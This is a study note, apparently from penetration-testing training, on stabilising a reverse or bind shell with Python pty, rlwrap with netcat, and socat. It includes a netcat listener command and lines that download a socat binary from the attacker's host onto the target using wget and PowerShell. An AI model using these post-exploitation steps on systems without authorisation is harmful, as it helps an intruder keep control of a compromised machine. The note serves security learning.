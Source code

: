 ### Technique 1: Python

The first technique we'll be discussing is applicable only to Linux boxes, as they will nearly always have Python installed by default. This is a three stage process:

The first thing to do is use `python -c 'import pty;pty.spawn("/bin/bash")'`, which uses Python to spawn a better featured bash shell;

> [!info]
> Note that some targets may need the version of Python specified. If this is the case, replace python with python2 or python3 as required. 

At this point our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.

**Step two is** `export TERM=xterm --` this will give us access to term commands such as clear.

**Finally** (and most importantly) we will **background the shell** using `Ctrl + Z`. Back in our own terminal we use `stty raw -echo; fg`. 
This does two things: 
- It turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). 
- It then foregrounds the shell, thus completing the process.

> [!example]
> The full technique can be seen here:
> ![[stabilizing-shell-tech-1.png]]


> [!important]
> Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type reset and press enter.

### Technique 2: rlwrap

`rlwrap` is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell; however, some manual stabilization must still be utilized if you want to be able to use `Ctrl + C` inside the shell. `rlwrap` is not installed by default on Kali, so first install it with `sudo apt install rlwrap`.

To use `rlwrap`, we invoke a slightly different listener:

`rlwrap nc -lvnp <port>`

Prepending our netcat listener with `rlwrap` gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilize. When dealing with a Linux target, it's possible to completely stabilize, by using the same trick as in step three of the previous technique: background the shell with `Ctrl + Z`, then use `stty raw -echo; fg` to stabilize and re-enter the shell.


### Technique 3: Socat

The third easy way to stabilize a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell. Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. To accomplish this method of stabilization we would first transfer a socat static compiled binary (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary `sudo python3 -m http.server 80`, then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or `wget <LOCAL-IP>/socat -O /tmp/socat`.

For the sake of completeness: in a Windows CLI environment the same can be done with PowerShell, using either `Invoke-WebRequest` or a webrequest system class, depending on the version of PowerShell installed `Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`. We will cover the syntax for sending and receiving shells with Socat in the upcoming tasks.

With any of the above techniques, it's useful to be able to change your terminal tty size. This is something that your terminal will do automatically when using a regular shell; however, it must be done manually in a reverse or bind shell if you want to use something like a text editor which overwrites everything on the screen.

First, open another terminal and run `stty -a`. This will give you a large stream of output. Note down the values for rows and columns:
![[stabilizing-shell-tech-3.png]]

Next, in your reverse/bind shell, type in:

`stty rows <number>`
	and
`stty cols <number>`

Filling in the numbers you got from running the command in your own terminal.

This will change the registered width and height of the terminal, thus allowing programs such as text editors which rely on such information being accurate to correctly open.
